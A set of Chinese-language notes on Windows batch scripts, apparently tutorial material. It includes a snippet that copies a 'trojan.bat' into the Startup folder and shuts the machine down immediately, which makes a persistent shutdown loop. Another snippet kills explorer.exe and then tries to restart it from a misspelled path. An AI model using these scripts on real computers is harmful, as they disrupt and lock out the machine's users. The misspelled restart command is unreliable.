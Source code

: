 ### 循环关机

```shell
@echo off
echo you have been hacked.
copy trojan.bat "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup">nul
shutdown -s -t 0
```

### 删除桌面进程

```shell
@echo off
color 0a
taskkill /im  explorer.exe /f
for %%i in(1 2 3 4 5)do ping /n 1 localhost>nul&&echo %%i
pause
start c:/windows/expolrer.exe
pause
```

## 案例

```shell
@echo off
title 小程序 v 1.0
color 0a
:menu
echo ===========
echo 菜单
echo 1.定时关机
echo 2.取消定时
echo 3.退出
echo ===========
set /p num=您的选择：
if "%num%" == "1" goto 1
if "%num%" == "2" goto 2
if "%num%" == "3" goto 3
:1
set /p a=请输入时间（单位/秒）：
shutdown -s -f -t %a%
goto menu
:2
shutdown -a
goto menu
:3
exit
```

## 遍历文件

```
@echo off
set Dir="F:\test"
for /r  %%d in (*) do echo %%d
pause
```

